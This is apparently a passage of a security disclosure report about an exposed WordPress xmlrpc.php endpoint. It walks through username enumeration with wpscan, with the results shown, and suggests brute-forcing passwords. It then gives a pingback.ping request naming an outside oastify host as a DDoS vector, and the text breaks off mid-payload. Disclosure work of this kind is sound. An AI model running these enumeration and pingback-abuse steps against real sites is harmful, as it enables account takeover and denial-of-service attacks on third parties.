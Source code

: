   <value><string>wp.getUsersBlogs</string></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>

Notice that a successful response is received showing that the xmlrpc.php file is enabled.
----------------------------------------------------------------------------------------------------------------------------------------

   >> Step 2. Username Enumeration: For Username enumeration, I performed my scan using wpscan tool which is popular WordPress scanner for scanning WordPress Vulnerabilities.
* Make sure you have the latest updates. 
   follow the next steps:

 -    wpscan  --url  http://nextcloud.com  --enumerate  u
 The Result was:

 [i] User(s) Identified:

[+] Mi-----ev
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Mi----er
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] J------iet
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Vi---- nyy
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)
By useing these usernames the attacker can broutforce the passowrds With burp's intruder or any other tool.
---------------------------------------------------------------------------------------------------------------------------------
  
>> Step . 3. Now, considering the domain  https://vmlj9gt0rjmxrtgsqlp1f10hj8pydn.oastify.com  the xmlrpc.php file discussed above could potentially be abused to cause a DDOS attack against a victim host. This is achieved by simply sending a request that looks like below.
 
 POST /xmlrpc.php HTTP/2
Host: http://nextcloud.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 344
<?xml version="1.0" encoding="UTF-8"?>
Code 286 BytesUnwrap lines Copy Download
<methodCall>
<methodName>pingback.ping</methodName>
<params>